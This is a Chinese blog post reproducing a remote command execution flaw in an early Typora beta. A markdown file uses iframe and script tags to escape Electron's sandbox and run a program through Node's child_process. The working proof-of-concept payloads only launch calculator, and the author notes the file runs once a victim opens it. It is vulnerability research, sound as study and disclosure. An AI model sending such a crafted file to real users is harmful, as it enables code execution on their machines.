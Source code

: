 ```yaml
---
title: "Typora Remote Command Execution"
date: 2018-12-20T08:30:03+08:00
categories: ['Vulnerability']
tags: ['remote','command','typora']
---
```


Typora是一个颜值和实力并存的markdown编辑器，我也在用。Typora基于Electron框架进行开发，今天看到了就复现下这个漏洞。

<!--more-->

## 漏洞分析

在基于Electron框架开发的应用中，如果说找到了XSS漏洞，那么基本上也完成了命令执行。那么我们进行XSS盲打之后并没有收获，原因是因为Typora的作者在开发的过程中用到了https://github.com/cure53/DOMPurify ，缓解了大部分的XSS攻击。



然鹅，`iframe`是一个神奇的标签，我们先来尝试下

```html
<iframe src="javascript:alert(1)"></iframe>
```

![插入iframe标签](https://y4er.com/img/uploads/20190509160667.jpg "插入iframe标签")

我们来看下输出的结果

![iframe输入结果](https://y4er.com/img/uploads/20190509163807.jpg)

可以看到，typora把iframe这个标签的src属性会当作相对路径进行处理，那么我们来包含下本地文件试试

新建poc.md输入

```html
<iframe src="./poc.html"></iframe>
```

同目录下的poc.html内容如下：

```javascript
<script>
        window.parent.top.alert(1)
</script>
```

弹窗！

![弹窗](https://y4er.com/img/uploads/20190509166973.jpg)

那么为什么弹窗呢？打开Devtools看下

Typora将我们的iframe标签解析成如下代码，其中`sendbox`是我们要注意的

```html
<iframe src="C:\Users\Y4er\Desktop\poc.html" allow-top-navigation="false" allow-forms="false" allowfullscreen="true" allow-popups="false" sandbox="allow-same-origin allow-scripts" onload="window.remoteOnLoad(this)" height="0" data-user-height="0"></iframe>
```

我们看下[HTML的文档](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox)中关于sendbox的说明，在html5中通过sendbox来提高iframe的安全性，而文档中也提到了

![sendbox说明](https://y4er.com/img/uploads/20190509162505.jpg)

如果`allow-scripts`和`allow-same-origin`同时被设置为sendbox的属性时，那么sendbox则形同虚设

那么我们修改下我们的poc来进行命令执行

```html
<script>
      //rce
        window.parent.top.require('child_process').execFile('C:/Windows/System32/calc.exe',function(error, stdout, stderr){
        if(error){
            console.log(error);
        }  
        });
</script>
```

![弹出计算器](https://y4er.com/img/uploads/20190509168440.jpg)

我们捋一下思路，现在我们通过iframe的src属性引用同目录的poc.html文档，来执行命令。可是这就需要两个文件，一个poc.md，一个poc.html。繁琐，有没有办法做到一个文件就达到我们的命令执行的目的的？

**尝试srcdoc**

```html
<iframe srcdoc="<script>window.parent.top.alert(1)</script>"></iframe>
```

并没有效果，在Devtools中我们看到sendbox的属性被设置为空，那么这是默认应用所有的沙盒限制，srcdoc不可行

**尝试引入md文件**

poc.md

```markdown
<iframe src="./poc.md"></iframe>
```

cmd.md

```html
<script>
      //rce
        window.parent.top.require('child_process').execFile('C:/Windows/System32/calc.exe',function(error, stdout, stderr){
        if(error){
            console.log(error);
        }  
        });
</script>
```

计算器被弹了出来

![熟悉的计算器](https://y4er.com/img/uploads/20190509161330.jpg)

也就是说我们现在能够引入md文件，这样的话我们代码执行的命令就可以直接放到poc.md中，然后自己iframe自己就可以达到命令执行的效果了。

**引用自己**

构造poc.md

```html
<iframe src="./poc.md"></iframe>
<script>
      //rce
        window.parent.top.require('child_process').execFile('C:/Windows/System32/calc.exe',function(error, stdout, stderr){
        if(error){
            console.log(error);
        }  
        });
</script>
```

![弹弹弹](https://y4er.com/img/uploads/20190509165864.jpg)

现在我们把poc.md文件发给别人，只要他用typora打开，就会执行我们代码中的命令。

## 后记

这篇文章是我昨天晚上看到的，今天复现的时候发现点问题，列举下：

1. 平台限制 基于Electron框架开发只是在win上，mac和Linux就另当别论
2. 版本限制 我用0.9.60beta版本不能执行，看了Typora的[版本日志](https://typora.io/windows/dev_release.html)后发现在0.9.9.56 (beta)版本中才支持`video`, `iframe`, `kbd`, `details`, `ruby`这类标签，漏洞也产生在这个版本，而在0.9.9.57 (beta)版本中就对此漏洞进行了修复，限制太大

参考原文链接：https://zhuanlan.zhihu.com/p/51768716